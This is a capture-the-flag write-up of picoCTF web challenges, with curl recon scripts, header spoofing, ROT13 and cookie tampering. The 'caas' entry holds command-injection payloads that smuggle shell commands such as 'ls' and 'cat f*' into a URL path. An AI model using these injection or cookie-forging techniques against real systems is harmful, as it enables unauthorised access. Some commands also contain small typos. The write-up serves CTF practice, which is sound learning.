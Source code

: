 # :robot: - where are the robots - `4`
```sh
$ curl http://jupiter.challenges.picoctf.org:36474/robots.txt
. . .
User-agent: *
Disallow: /_.html
. . .

$ curl http://jupiter.challenges.picoctf.org:36474/_.html
```

# :female_detective: - Insp3ct0r - `18`
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_insp3ct0r.sh)
```r
#!/bin/bash

alias cmd='grep -i flag | sed "s/^.*flag: //" | sed "s/ .*$//" '
url='https://jupiter.challenges.picoctf.org/problem/41511'

curl -s ${url}/index.html | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/myjs.js | cmd
```

# :wood: - logon - `46`
- in chrome do `chrome://flags`
- set Partitioned cookies to enable
- relaunch and set admin cookie to true 

# :thread: - dont-use-client-side - `66`
```r
$ curl http://jupiter.challenges.picoctf.org:37821 | grep substring 
```

# :question: - who are you - `142`
```r
# HTTP Requests for Comments (RFC)

$ curl -H "user-agent: PicoBrowser" \
-H "referer: mercury.picoctf.net:34588" \
-H "date: 2018" 
-H "DNT: 1" \
-H "origin: sweden" \
-H "x-forwarded-for: 31.44.224.0" \
-H "accept-language: sv-swe" \
http://mercury.picoctf.net:34588
```

# :carrot: - Mod 26 - `144`
```sh
# ROT13
$ echo _ | tr 'n-za-mN-ZA-M' 'a-zA-z'

# or alternatively
$ echo _ | tr "A-Za-z" "N-ZA-Mn-za-m"

```

# :accept: - Some Assembly Required 1 - `152`
###### hint: path in script

# :hungary: - scavenger hunt - `161`
[script](https://github.com/nuoxoxo/writeups/blob/main/scripts/pico_scavenger_hunt.sh)
```r
#!/bin/bash

alias cmd='grep -i part | sed "s/^.*: //" | sed "s/ .*$//" '
url='http://mercury.picoctf.net:55079'

curl -s ${url} | cmd
curl -s ${url}/mycss.css | cmd
curl -s ${url}/robots.txt | cmd
curl -s ${url}/.htaccess | cmd
curl -s ${url}/.DS_Store | cmd
```
###### edited from
```sh
#!/bin/bash

curl -s -n http://mercury.picoctf.net:55079 | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/mycss.css | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/robots.txt | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.htaccess | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
curl -s http://mercury.picoctf.net:55079/.DS_Store | grep -i part | sed "s/^.*: //" | sed "s/ .*$//"
```

# :snake: - Python Wrangling - `166`
```scala
$ wget _ _ _ && cat pw.txt | python3 ende.py -d flag.txt.en
```

# :baseball: - login - `200`
###### hint: base64

# :cow: - caas - `202`
```sh
$ curl "https://caas.mars.picoctf.net/cowsay/pwd;ls"
$ curl "https://caas.mars.picoctf.net/cowsay/xxx;cat f*"
```

[github flavor emoji list](https://gist.github.com/rxaviers/7360908)

# :rainbow_flag: - wave a flag - `170`
```sh
$ strings warm | grep pico
```
